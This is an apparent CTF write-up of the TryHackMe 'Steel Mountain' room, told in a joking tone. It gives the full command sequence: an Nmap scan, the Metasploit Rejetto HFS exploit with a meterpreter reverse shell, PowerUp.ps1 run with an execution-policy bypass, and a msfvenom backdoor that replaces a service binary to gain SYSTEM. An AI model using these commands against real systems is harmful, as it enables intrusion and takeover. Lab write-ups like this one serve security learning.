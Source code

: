 # TryHackMe – Steel Mountain 🏔️
## “Because what’s life without a little corporate sabotage?”

  ## Target IP: 10.10.202.175

  ## Attacker IP (me): 10.13.83.247

  ## Shell Port: 4444 (because tradition matters)

  

## 🔍 Step 1: Nmap – Reconnaissance or Just Fancy Port Stalking

### Let’s be honest, if you’re not starting with Nmap, are you even trying?

## nmap -sC -sV -oN steel-nmap 10.10.202.175

### Results?
Port 80 open. Web server is running Rejetto HFS 2.3, aka “Hello, I’m vulnerable and proud.”


## 💣 Step 2: Metasploit – Because Why Work Hard

### After seeing Rejetto, my brain went, “Cool, I’ve got a module for that,” and fired up Metasploit. Manual exploitation is for people with patience and time. I had neither.

use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.10.202.175
set LHOST 10.13.83.247
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
run

### No surprises. A shiny new meterpreter session popped up like it owed me money.



## 🧼 Step 3: Privilege Enumeration – Let the Scripts Think for You

### Uploaded PowerUp.ps1 because I prefer my enumeration like I prefer my coffee: automated and mildly dangerous.

upload PowerUp.ps1 C:\\Windows\\Temp\\PowerUp.ps1
powershell -exec bypass -f C:\\Windows\\Temp\\PowerUp.ps1

### PowerUp politely informed me that there’s a service called AdvancedSystemCareService9 that’s just begging to be abused. Windows never disappoints.



## 🔨 Step 4: Privilege Escalation – Replace, Restart, Rejoice

Time to abuse that janky service.


### Step 4.1 – Build a Backdoor

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.83.247 LPORT=4444 -f exe -o /tmp/malicious.exe

Because nothing says “admin access” like uploading something called malicious.exe.


### Step 4.2 – Upload & Replace

upload /tmp/malicious.exe C:\\Windows\\Temp\\malicious.exe

### Then I replaced the service binary (manually or through meterpreter) with my backdoor and restarted the service:

sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9

### Boom. SYSTEM access. Because Microsoft can’t be bothered.



## 🏁 Step 5: Root.txt – The Holy Grail of Every CTF

cd C:\\Users\\Administrator\\Desktop
cat root.txt

## Flag captured. Game over. Insert dramatic mic drop here.


🧠 TL;DR (for the lazy but curious)
Phase	Tool Used	What Happened

Recon	Nmap	Found Rejetto HFS 2.3 on port 80

Initial Access	Metasploit	RCE exploit got us meterpreter

Enumeration	PowerUp	Identified vulnerable service

Privesc	Malicious .exe & service restart	Got SYSTEM shell

Loot	Shell + root.txt	The flag is mine, peasant


## 🧃 Final Thoughts

Steel Mountain was fun. Classic CTF structure: weak web app + service hijacking = win.
Would recommend if you enjoy watching Windows security fall apart like IKEA furniture built without instructions.

## PROOF OF COMPLETION 

![Image](https://github.com/user-attachments/assets/ae590eae-b681-4d0b-bef8-a395ec67dbab)
